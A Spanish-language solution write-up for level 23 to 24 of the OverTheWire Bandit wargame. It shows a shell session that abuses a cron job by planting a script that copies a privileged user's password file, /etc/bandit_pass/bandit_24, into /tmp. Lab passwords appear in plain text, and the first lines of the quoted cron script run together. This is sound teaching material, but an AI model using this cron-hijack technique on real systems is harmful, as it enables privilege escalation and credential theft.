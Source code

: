 # LEVEL 23-34

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

## Datos acceso
ssh bandit23 @bandit.labs.overthewire.org -p 2220
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion
```bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh  
#!/bin/bashmyname=$(whoami)cd /var/spool/$myname  
echo "Executing and deleting all scripts in /var/spool/$myname:"  
for i in * .*;  
do  
    if [ "$i" != "." -a "$i" != ".." ];  
    then  
        echo "Handling $i"  
        owner="$(stat --format "%U" ./$i)"  
        if [ "${owner}" = "bandit23" ]; then  
            timeout -s 9 60 ./$i  
        fi  
        rm -f ./$i  
    fi  
done

bandit23@bandit:~$ mkdir /tmp/tempodir
bandit23@bandit:~$ cd tempodir
-bash: cd: tempodir: No such file or directory
bandit23@bandit:~$ cd /tmp/tempodir
bandit23@bandit:/tmp/tempodir$ ls
bandit23@bandit:/tmp/tempodir$ touch script.sh
bandit23@bandit:/tmp/tempodir$ ls
script.sh
bandit23@bandit:/tmp/tempodir$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tempodir$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tempodir$ cat script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit_24 > /tmp/tempodir/password
bandit23@bandit:/tmp/tempodir$ touch password
bandit23@bandit:/tmp/tempodir$ chmod 777 -R /tmp/tempodir
bandit23@bandit:/tmp/tempodir$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tempodir$ ls =la
ls: cannot access '=la': No such file or directory
bandit23@bandit:/tmp/tempodir$ ls -la
total 124
drwxrwxrwx   2 bandit23 bandit23   4096 Mar  2 02:00 .
drwxrwx-wt 908 root     root     114688 Mar  2 02:01 ..
-rwxrwxrwx   1 bandit23 bandit23      0 Mar  2 02:00 password
-rwxrwxrwx   1 bandit23 bandit23     68 Mar  2 01:59 script.sh
bandit23@bandit:/tmp/tempodir$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```
## Notas adicionales
l comando "cp" en Linux se utiliza para copiar archivos o directorios de un lugar a otro. Su sintaxis básica es la siguiente:

`cp origen destino`

Donde "origen" es la ubicación y el nombre del archivo o directorio que se desea copiar, y "destino" es la ubicación y el nombre del archivo o directorio al que se desea copiar.
## Referencias

